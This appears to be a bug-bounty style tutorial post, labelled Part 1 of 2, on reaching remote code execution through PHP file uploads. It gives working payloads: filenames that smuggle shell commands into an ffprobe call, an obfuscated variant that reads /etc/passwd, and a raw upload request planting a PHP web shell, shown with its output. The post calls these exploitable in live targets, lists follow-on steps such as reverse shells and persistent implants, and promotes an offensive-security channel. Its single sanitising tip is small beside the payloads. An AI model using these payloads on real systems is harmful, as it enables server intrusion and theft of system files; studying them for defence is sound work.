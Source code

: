 ![Advanced RCE Techniques](https://github.com/user-attachments/assets/f40023cd-40d1-407e-8c0a-f66cdc6d0d67)

# 🚨 Advanced RCE Techniques via File Extensions, PHP Uploads & SSTI [Part 1/2]

## 💥 [Part 1] From a simple filename to Remote Code Execution (RCE)
In Part 1 post, we’ll deep dive into how small overlooked features in web apps lead to full server compromise. These methods are real, tested, and exploitable in live targets.

---

### [1/20] 🧠 Mindset: Small Inputs, Big Impact
Most developers don’t think a filename, a template, or a simple form can lead to full RCE. But they can. Always ask: _"Where does my input go behind the scenes?"_

---

### [2/20] 🐚 Shell Injection via File Extension
Let’s start with one of the most ignored injection points — the file extension.

#### 🔎 Vulnerable PHP snippet:
```php
$ext = pathinfo($file["name"], PATHINFO_EXTENSION);
$filepath = $base_dir . uniqid() . '.' . $ext;
$command = "ffprobe -i \"$filepath\" ...";
shell_exec($command);
```

☠️ The pathinfo() function blindly extracts extension and passes it to shell.

---

### [3/20] 💥 Payload to Trigger Command Execution
Upload:
```makefile
filename: 02.mp3";id;#
```
Which results in:
```bash
ffprobe -i "/uploads/abc.mp3";id;#"
```
✅ `id` command is executed on the server.

---

### [4/20] 😈 Obfuscated Command Injection
Want to dump `/etc/passwd` without using restricted characters?

#### Payload:
```php
02.mp3";php -r '$sl=chr(47);echo shell_exec("cat ${sl}etc${sl}passwd");';#
```

🔥 Uses `chr()` to bypass character restrictions.

---

### [5/20] 🔄 Real-World Consequences
This flaw can lead to:
- Shell access
- File exfiltration
- Lateral movement
- Privilege escalation

---

### [6/20] 💡 Tip: Sanitize Extensions
Always sanitize filename extensions server-side, even if the upload is client-validated. Avoid passing unescaped strings into any shell function.

---

### [7/20] ☠️ Arbitrary PHP File Upload – Still Alive in 2025
Classic file upload RCE example. Often found in legacy systems.

---

### [8/20] 🧪 Sample Malicious Upload Request
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=123

--123
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php system('cat /etc/passwd'); ?>
--123--
```

---

### [9/20] 🎯 Execution & Confirmation
URL:
```bash
GET /uploads/images/shell.php
```

Output:
```ruby
root:x:0:0:root:/root:/bin/bash
...
```

---

### [10/20] 🔥 Power of File Upload RCE
After initial RCE, you can:
- Deploy reverse shells
- Drop persistent implants
- Access internal networks
- Open tunnels and pivot

---

📢 **Coming Soon: Part 2 – Advanced SSTI Payloads & Post Exploitation**

For more real-world PoCs, deep dives, and offensive security tactics:  
👉 Join [@cybersecplayground](https://t.me/cybersecplayground)

---

#RCE #BugBounty #PHP #SSTI #CyberSecurity #CTF #Exploit #Payloads #cybersecplayground
